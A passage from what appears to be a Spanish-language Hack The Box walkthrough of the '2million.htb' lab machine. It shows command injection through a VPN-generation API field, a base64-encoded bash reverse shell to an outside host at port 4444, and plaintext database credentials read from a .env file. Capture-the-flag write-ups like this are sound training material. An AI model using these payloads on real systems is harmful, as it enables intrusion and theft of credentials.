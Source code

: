 Boom. Cambiamos el flag `is_admin` a 1 directamente, con lo que nuestro usuario ya tiene privilegios administrativos, sin validación ni seguridad. Esto es una falla grave que ya abre muchas puertas.

---

## RCE y Reverse Shell

Con privilegios admin, probamos si podemos ejecutar comandos arbitrarios usando la API de generación de VPN, que aceptaba parámetros sin filtrar:

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
  --cookie "PHPSESSID=XXXX" \
  --header "Content-Type: application/json" \
  --data '{"username":"test;id;"}'
```

Respuesta:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

¡Listo! Confirmamos ejecución remota de comandos (RCE). Ahora el siguiente paso es subir una reverse shell para control total.

Codificamos el payload en base64 para evitar problemas de caracteres y lo ejecutamos:

```bash
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjE=' | base64 -d | bash
```

Luego mandamos la orden para ejecutar esto desde la API:

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
  --cookie "PHPSESSID=XXXX" \
  --header "Content-Type: application/json" \
  --data '{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjE= | base64 -d | bash;"}'
```

Y voilà: shell remota con permisos de www-data. Desde aquí podemos explorar la máquina con tranquilidad.

---

## Credenciales en `.env`

En la raíz de la aplicación encontramos un archivo `.env` con credenciales en texto plano, un clásico error de seguridad:

```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
